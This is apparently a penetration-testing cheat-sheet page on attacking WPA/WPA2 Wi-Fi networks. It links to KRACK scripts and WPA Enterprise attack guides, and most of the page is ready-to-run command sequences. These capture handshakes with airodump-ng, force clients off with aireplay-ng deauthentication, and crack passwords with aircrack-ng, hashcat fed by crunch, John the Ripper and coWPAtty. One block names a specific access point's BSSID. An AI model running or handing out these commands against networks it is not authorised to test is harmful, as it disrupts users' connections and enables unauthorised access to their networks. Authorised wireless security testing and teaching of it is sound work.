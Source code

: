 {% embed url="https://www.krackattacks.com/#demo" %}

{% embed url="https://githubhelp.com/Scr561/krackattacks-scripts" %}

### <mark style="color:orange;">Enterprise Attacks</mark>

{% embed url="https://www.offensive-security.com/penetration-testing/hacking-wpa-enterprise-with-kali-linux" %}

{% embed url="https://www.contextis.com/en/blog/attacking-and-defending-wpa-enterprise-networks" %}

{% embed url="https://resources.infosecinstitute.com/topic/attacking-wpa2-enterprise" %}

{% embed url="https://pentest.blog/attacking-wpa-enterprise-wireless-network" %}

### <mark style="color:orange;">Dictionary Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
aircrack-ng -w <WordlistFile> -b <BSSID> <Handshaked_PCAP>
```

### <mark style="color:orange;">crack with Hashcat</mark>

```
airmon-ng
airmon-ng start wlx000f00313c95
airodump-ng wlan1mon -c 11
airodump-ng wlan1mon -c 11 --bssid 48:EE:0C:8E:D0:5C -w /root/hp/
aireplay-ng -0 0 -a 48:EE:0C:8E:D0:5C  wlan1mon

# convert pcap to  hccapx
https://hashcat.net/cap2hccapx/

apt install hashcat-utils
crunch 8 8 1234567890 | hashcat -m 22000  18081_1596091404.hccapx --status  -o cracked.txt
```

### <mark style="color:orange;">Crack with John The Ripper</mark>

```
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
cd /pentest/passwords/john
john -wordlist=<Wordlist> --rules -stdout|aircrack-ng -0 -e <ESSID> -w - <PCAP_of_FileName>
```

### <mark style="color:orange;">Crack with coWPAtty</mark>

```
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
cowpatty -r <FileName> -f <Wordlist> -2 -s <SSID>
genpmk -s <SSID> -f <Wordlist> -d <HashesFileName>
cowpatty -r <PCAP_of_FileName> -d <HashesFileName> -2 -s <SSID>
```
